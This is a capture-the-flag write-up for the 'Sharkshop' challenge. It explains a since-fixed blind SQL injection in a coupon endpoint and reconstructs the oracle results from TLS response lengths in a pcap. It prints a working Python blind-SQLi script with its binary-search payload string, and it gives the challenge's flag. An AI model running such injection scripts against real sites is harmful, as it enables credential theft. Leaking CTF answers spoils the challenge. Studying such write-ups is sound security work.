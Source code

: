 # Sharkshop

## Description

During the development of an e-commerce website, the password of the administrator user was leaked. The vulnerabilities that may have been exploited have already been fixed, but it seems the password has not yet been changed. From the captured communication logs of the attacker at that time, deduce the password and log in as the "admin" user.

## Writeup

Looking at the source code, we can see that it is managed with git, and from the commit history it becomes clear that there used to be a blind SQL injection vulnerability in `GET /coupon`, which has since been fixed. Specifically:

```python
cur = conn.execute(f"SELECT * FROM coupons WHERE code = {code}")
```

If this query returns a result, the application responds with:
> You can enter coupons after the official launch.

If it does not return a result, the response is:
> Invalid Coupon

Examining the pcap file, we see that in the very first HTTP request, a Python script used for the attack was downloaded. This script leverages `GET /coupon` to extract the admin user’s password via blind SQL injection using binary search:

```python
import requests
import warnings

warnings.simplefilter("ignore")

url = "https://sharkshop.fwectf.com/coupon"
max_length = 32
result = ""


def check_condition(code):
    r = requests.post(url, data={"coupon_code": code}, verify=False)
    return "You can enter coupons after the official launch." in r.text

i = 0
for pos in range(1, max_length + 1):
    low = 32
    high = 126
    found = False
    while low <= high:
        mid = (low + high) // 2
        payload = f"' OR (SELECT unicode(substr(password,{pos},1)) FROM users WHERE username='admin') >= {mid} --"
        i += 1
        if check_condition(payload):
            low = mid + 1
            char_guess = chr(mid)
        else:
            high = mid - 1
    if low == 32:
        break
    result += char_guess
    print(f"Password so far: {result}", flush=True)

print("Leaked admin password:", result)
print(i)
```

As the problem statement mentions, this vulnerability is no longer exploitable, so a replay attack would not work. Although the packets in the pcap file contain the attacker’s requests to `https://sharkshop.fwectf.com/coupon`, they are encrypted with TLS 1.3, making it impossible to directly read the flag. Moreover, decrypting the encrypted data is not feasible with only the pcap file.

At this point, we can turn our attention to the length of the TLS-encrypted data. The length of the ciphertext is roughly proportional to the length of the original plaintext. Therefore, compared to the case when the response is "You can enter coupons after the official launch.", the ciphertext is shorter when the response is "Invalid Coupon."

After removing duplicate transmissions caused by packet loss and retransmission, we observe that the response lengths fall into two categories: 5037 and 5071. The longer length corresponds to "You can enter coupons after the official launch." Using this observation, it is possible to reconstruct the binary search attack logic.

## Flag

`fwectf{pcap_f1L3_d3_c7f_914y3r_w0_k0w464r453m45h0u}`

